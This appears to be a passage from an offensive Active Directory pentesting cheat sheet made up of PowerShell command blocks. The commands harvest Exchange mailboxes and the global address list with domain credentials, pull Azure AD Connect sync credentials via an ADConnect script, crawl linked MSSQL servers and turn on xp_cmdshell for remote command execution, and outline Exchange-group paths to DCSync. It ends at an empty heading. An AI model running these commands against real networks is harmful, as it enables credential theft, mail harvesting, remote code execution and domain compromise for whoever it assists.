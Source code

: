 ```
Get-GlobalAddressList -ExchHostname EXCHANGE-COMPUTER -UserName DOMAIN\USER -Password PASSWORD -Verbose
Invoke-OpenInboxFinder -EmailList EMAIL.txt -ExchHostname EXCHANGE-COMPUTER -Verbose
Invoke-SelfSearch -Mailbox MAILBOX -ExchHostname EXCHANGE-COMPUTER -OutputCsv mails.csv
```

## AzureAD

```
Get-DomainUser -Domain DOMAIN | ?{$_.samAccountName -like 'MSOL_*'} | select SamAccountName,Description | fl
. .\adconnect.ps1
ADConnect
```

## MSSQL

+ PowerUpSQL
```
Get-SQLInstanceDomain
Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose
Get-SQLServerLink -Instance MSSQL-SERVER -Verbose
Get-SQLServerLinkCrawl -Instance MSSQL-SERVER -Verbose
Get-SQLServerLinkCrawl -Instance MSSQL-SERVER -Query 'exec master..xp_cmdshell ''COMMAND''' -QueryTarget SERVER
```
+ Enable RPC Out and `xp_cmdshell` on linked server from a MSSQL server:
```
Invoke-SqlCmd -Query "exec sp_serveroption @server='LINKED-SERVER', @optname='rpc', @optvalue='TRUE'"
Invoke-SqlCmd -Query "exec sp_serveroption @server='LINKED-SERVER', @optname='rpc out', @optvalue='TRUE'"
Invoke-SqlCmd -Query "EXECUTE ('sp_configure ''show advanced options'',1;reconfigure;') AT ""LINKED-SERVER"""
Invoke-SqlCmd -Query "EXECUTE('sp_configure ''xp_cmdshell'',1;reconfigure') AT ""LINKED-SERVER"""
```

## Cross-domain
### Exchange

```
Get-DomainGroup *exchange* -Domain DOMAIN
Get-DomainGroupMember -Identity "Organization Management" -Domain DOMAIN -Verbose -Recurse
```

+ Organization Management -> GenericAll on Exchange Windows Permissions -> WriteDACL on domain object -> DCSync (takes a while)
+ Exchange Trusted Subsystem -> can modify DACL of DNSAdmins\*

### Unconstrained Delegation
